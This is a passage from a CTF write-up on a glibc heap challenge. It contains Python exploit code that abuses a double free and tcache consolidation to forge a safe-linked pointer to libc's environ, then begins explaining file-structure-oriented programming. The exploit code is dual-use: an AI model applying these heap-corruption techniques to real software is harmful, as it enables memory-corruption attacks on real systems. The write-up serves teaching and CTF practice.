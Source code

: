The exact payload we provide our `0x230` chunk is explained below, and the complete code for this is as follows:

```py
# Get our environment target!
environ = libc.symbols['environ']

# Allocate 7 blocks of size 0x200, we’ll free them later
# We can’t leak them as before, so place them into our mem array properly
for i in range (7):
    alloc(9+i, 0x200, 'A')
# Allocate our prev block and our victim block, along with the buffer
alloc(6, 0x200, 'prev')
alloc(7, 0x200, 'victim')
alloc(8, 0x10, 'hello!')
# Fill the tcache!
for i in range(7):
    free(9+i)
# free our victim chunk
free(7)
# free our previous chunk (they are now consolidated)
free(6)
alloc(5, 0x200, 'X') # Open up a slot in the tcache
# double free vulnerablity, now victim is in the tcache!
free(7)

# We alloc the slightly larger chunk, getting a split of the [prev, victim] chunk
# We’re going to write to it the necessary padding then:
# 0x211, to preserve the size of the victim chunk
# environ ^ ((heap + 0x3320) >> 12), because we need to pass a safe-linked ptr.
# Otherwise, malloc will crash. 0x3320 offset was found via debugging.
alloc(1, 0x230, b'T'*0x208 + p64(0x211) + p64((environ ^ ((heap + 0x3320) >> 12))))
alloc(2, 0x200, 'X') # remove a from the tcache again, updating the linked list structure

alloc(3, 0x200, '') # this guy is now located at environ!
show(3)
```

Ah, but we run into a slight issue. I _have_ to send a payload, and sending a newline clobbers the address stored by `environ`. So I need write somewhere that would somehow leak environ for me! There is a method to do this: File Structure Oriented Programming.

## ROP? I Like FSOP. <a name="fsop"></a>

I’m going to be honest, when I did this challenge during the CTF, I just saw the line of code that would work for me in the [ret2school](https://ret2school.github.io/post/catastrophe/) writeup and copied it. However, I feel that it would be wrong for me to not even try to explain this technique.

If you have ever used pure `open, read, write` syscalls, you’ll be quite familiar interacting with _file descriptors_. These are just integer indexes that correspond to a file currently accessible by your program. Traditionally, 0,1,2 are reserved for the linux "files" stdin, stdout, and stderr, which is how you interact with you program. Now, using `OWR` syscalls can be tedious to use, and libc has provided more feature-rich versions, such as `fopen, fprintf, fputc`, etc. These don’t use just file descriptors though, instead using a `FILE` struct, referenced by pointer. Let’s look at the relevant definition, using [exlir.bootlin.com](https://elixir.bootlin.com/), truncated slightly:
